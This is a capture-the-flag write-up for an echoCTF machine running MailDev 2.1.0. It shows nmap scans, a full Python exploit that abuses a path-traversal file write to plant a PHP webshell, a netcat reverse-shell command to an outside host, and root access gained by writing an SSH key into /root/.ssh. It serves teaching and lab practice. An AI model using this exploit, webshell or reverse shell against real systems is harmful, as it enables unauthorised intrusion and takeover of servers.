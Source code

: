 ```yaml
---
description: >-
  Maildev echoCTF Machine
title: Maildev (Intermediate)                # Add title here
date: 2025-01-31 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: [MailDev, RCE]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Maildev.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.229
```

### Content

- MailDev 2.1.0 Arbitrary File Write leading to RCE

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
# Nmap 7.94SVN scan initiated Fri Jan 31 12:36:09 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.229
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.229 ()   Status: Up
Host: 10.0.160.229 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 1025/open/tcp//NFS-or-IIS///, 1080/open/tcp//socks///
```
Services and Versions running:
```bash
# Nmap 7.94SVN scan initiated Fri Jan 31 12:41:58 2025 as: nmap -p22,80,1025,1080 -sCV -n -Pn -vvvv -oN targeted 10.0.160.229
Nmap scan report for 10.0.160.229
Host is up, received user-set (0.16s latency).
Scanned at 2025-01-31 12:41:58 EST for 49s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d2:90:46:0b:0e:e5:66:59:cc:03:18:88:10:53:e6:5a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOxIeIjpYc2Od5GnvL0Ff26fP1aJ9bpfSlDN/KZZ7N53EQLiDv4fCcXPfU1l6Isz1MMSZdYPQbEsev4dj86/CBo=
|   256 ee:cb:b8:c8:31:c7:f5:2c:b8:89:6b:33:ad:29:7c:6b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICxY+jtb5JfiQu6/xe1/jy2mxXJFij2dj4sLuIKDYGd7
80/tcp   open  http    syn-ack ttl 63 nginx 1.22.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.22.1
1025/tcp open  smtp    syn-ack ttl 63
|_smtp-commands: Couldn't establish connection on port 1025
| fingerprint-strings: 
|   GenericLines: 
|     220 maildev.echocity-f.com ESMTP
|     Error: command not recognized
|     Error: command not recognized
|   GetRequest, Hello, Help: 
|     421 maildev.echocity-f.com You talk too soon
|   NULL: 
|_    220 maildev.echocity-f.com ESMTP
```

### Exploitation

There are three ports open for this machine, two of them TCP-1025 and TCP-1080 are part of the maildev software:
![](/assets/img/Pasted-image-20250131124505.png)

The HTTP port TCP-1080 as shown in the previous image displays the version running on this machine, so first step is to identify a good exploit for [MailDev 2.1.0](https://raw.githubusercontent.com/Tim-Hoekstra/MailDev-2.1.0-Exploit-RCE/refs/heads/main/exploit.py), unfortunately this doesn't works, so with the aid of ChatGPT and after understanding the exploit I came with this exploit:
```bash
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.image import MIMEImage

# Configuration
smtp_server = "10.0.160.229" #Replace with your MailDev server
smtp_port = 1025  # Replace with the correct SMTP port
sender_email = "attacker@codegate2023.org"
recipient_email = "victim@codegate2023.org"

# Malicious JavaScript to overwrite routes.js
malicious_js = """
<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>
"""

# Create the multipart email
msg = MIMEMultipart("alternative")  # Using "alternative" instead of "mixed"
msg["From"] = sender_email
msg["To"] = recipient_email
msg["Subject"] = "Exploit Email"

# Attach the malicious JavaScript as plain text
malicious_part = MIMEImage(malicious_js.encode('utf-8'), _subtype="png", name="a.png")
malicious_part.add_header("Content-ID", "<../../../../var/www/html/shell.php>")
#malicious_part.add_header("Content-Disposition", "inline")
msg.attach(malicious_part)

# Send the email
with smtplib.SMTP(smtp_server, smtp_port) as server:
    server.sendmail(sender_email, recipient_email, msg.as_string())

print("Exploit email sent.")

```
An important step to consider here is that the exploit is an Arbitrary File Write, because of this, we need to know what path is going to be used to upload our shell, since the directory of the MailDev UI port is not known, the best approach is to upload our shell to the most common path of the Nginx server `/var/www/html`. After executing this exploit we have a reverse shell:

```bash
http://10.0.160.229/shell.php?cmd=whoami
```

![](/assets/img/Pasted-image-20250131125619.png)

All that lefts is to execute the reverse shell of your choice, I used:
```bash
nc -e /bin/bash 10.10.5.122 1234
```

### Privilege Escalation
This was a privilege escalation hidden on plainsight and linpeas will not help to discover the privesc, if you do a basisc `ls -al` to the uploaded shell.php uploaded to get the revshell, you'll see that it was uploaded not as `www-data` but as root:
```bash
www-data@maildev:/var/www/html# ls -al
total 20
drwxr-xr-x 1 www-data root 4096 Jan 31 18:38 .
drwxr-xr-x 1 root     root 4096 Jan  3  2024 ..
-rw-r--r-- 1 www-data root  615 Jan  3  2024 index.nginx-debian.html
-rw-r--r-- 1 root     root   62 Jan 31 18:38 shell.php
```
Then you have Arbitrary File Write anywhere on the system, so let's upload our `authorized_keys` to the ``/root/.ssh` folder by modifing this line of code on our exploit:
```bash
# Malicious JavaScript to overwrite routes.js
malicious_js = """
ssh-ed25519 A<REDACTED>h kali@kali
"""
```
And we are inside!!!

### Post Exploitation
Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`/proc/1/environ`
`/root`


### Credentials

No credentials were identified or needed

### Notes

- The privilege escalation for this one was very tricky, all you need to do is check the permissions of the uploaded webshell from the exploitation step, you'll see that is uploaded as root, then you'll notice that you can upload any file anywhere on the system.   

### References
- [MailDev 2.1.0](https://raw.githubusercontent.com/Tim-Hoekstra/MailDev-2.1.0-Exploit-RCE/refs/heads/main/exploit.py)


